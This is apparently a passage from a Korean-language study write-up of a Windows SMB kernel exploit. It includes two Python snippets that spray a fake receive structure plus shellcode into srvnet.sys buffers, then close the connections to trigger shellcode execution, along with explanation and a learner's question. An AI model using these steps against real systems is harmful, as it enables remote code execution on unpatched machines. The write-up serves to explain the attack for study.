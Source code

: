 위의 `send_big_trans2()`를 살펴보면, 전송할 데이터의 마지막 남은 부분을 전송하지 않도록 되어있는데, 위의 코드에서 그 마지막 부분을 전송한다.

이를 수행함으로써, 앞서 빈 hole을 만든 buffer에 전송된 데이터가 삽입되는 것으로 판단된다.

> 물음 : 그냥 처음에 hole을 만들어놓고 다 전송하면 안되는 건가?


    # a corrupted buffer will write recv data in designed memory address
    for sk in srvnetConn:
      sk.send(fake_recv_struct + shellcode)

할당된 모든 `srvnet.sys` buffer에 페이로드 패킷을 전송한다. 그 중 overflow가 일어나 header가 변형된 것이 있다면 페이로드가 HAL heap 영역에 입력된다.


    # execute shellcode by closing srvnet connection
    for sk in srvnetConn:
      sk.close()

커넥션을 닫을 때 `SrvNetCommonReceiveHandler()`로 인해 shellcode가 실행된다.
